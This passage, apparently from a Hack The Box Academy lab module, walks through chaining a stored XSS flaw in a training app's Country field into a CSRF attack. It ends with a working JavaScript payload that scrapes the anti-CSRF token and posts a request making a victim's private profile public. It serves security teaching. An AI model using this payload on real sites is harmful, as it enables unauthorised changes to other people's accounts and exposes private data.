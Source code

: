 Navigate to `http://minilab.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the application's functionality.

Some facts about the application:

* The application features same origin/same site protections as anti-CSRF measures (through a server configuration - you won't be able to actually spot it)
* The application's _Country_ field is vulnerable to stored XSS attacks (like we saw in the _Cross-Site Scripting (XSS)_ section)

Malicious cross-site requests are out of the equation due to the same origin/same site protections. We can still perform a CSRF attack through the stored XSS vulnerability that exists. Specifically, we will leverage the stored XSS vulnerability to issue a state-changing request against the web application. A request through XSS will bypass any same origin/same site protection since it will derive from the same domain!

Now it is time to develop the appropriate JavaScript payload to place within the _Country_ field of Ela Stienen's profile.

Let us target the _Change Visibility_ request because a successful CSRF attack targeting _Change Visibility_ can cause the disclosure of a private profile.

First, we need to intercept the related request.

Run Burp Suite as follows.

&#x20; XSS & CSRF Chaining

```shell-session
root@htb[/htb]$ burpsuite
```

By browsing the application, we notice that Ela Stienen can't share her profile. This is because her profile is _private_. Let us change that by clicking "Change Visibility."

Then, activate Burp Suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Make Public!_.

![image](https://academy.hackthebox.com/storage/modules/153/45.png)

You should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Forward all requests so that Ela Stienen's profile becomes public.

Let us focus on the payload we should specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings (From private to public and vice versa).

The payload we should specify can be seen below.

Code: javascript

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```